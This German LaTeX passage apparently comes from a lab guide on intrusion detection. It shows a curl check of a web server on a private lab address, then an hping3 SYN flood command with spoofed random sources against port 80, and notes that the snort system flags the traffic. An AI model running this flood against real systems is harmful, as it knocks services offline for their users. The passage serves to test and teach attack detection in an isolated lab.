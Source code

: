 \begin{verbatim}
  curl -I 192.168.56.3
\end{verbatim}

Dieser sollte bei erfolgreicher Bearbeitung durch den Server die in Abb. \ref{fig:nginx-1} zu sehende Ausgabe liefern.\\

\begin{figure}[H]
\centering
\includegraphics[width=0.4\textwidth]{graphics/attacks/curl-result1.png}
\caption{Erfolgreiche Webserverantwort.}\label{fig:nginx-1}
\end{figure}

Das auf Kali vorinstallierte Tool  kann nun für einen einfachen TCP SYN-Angriff verwendet werden. Dazu wird folgender Befehl genutzt.\\

\begin{verbatim}
  sudo hping3 --flood -S --rand-source -p 80 192.168.56.3
\end{verbatim}

Nun kann die Seite erneut angefragt werden (z.B. auf dem Angreifer-System). Es sollte zu Verzögerungen kommen. Gleichzeitig sollte das snort-System die Anfragen als \glqq{}Potentially Bad Traffic\grqq{} klassifizieren (Abb. \ref{fig:dos-snort}). Als Variation kann man das Argument  im  weglassen.
Sind keine Verzögerungen merkbar, kann der folgende alternative Befehl zu Anfrage möglicherweise helfen.
\begin{verbatim}
  curl -I 192.168.56.3 -H "Cache-Control: no cache"
\end{verbatim}

\begin{figure}[H]
\centering
\includegraphics[width=0.6\textwidth]{graphics/attacks/snort-dos.png}
\caption{SYN-Angriffserkennung durch snort.}\label{fig:dos-snort}
\end{figure}
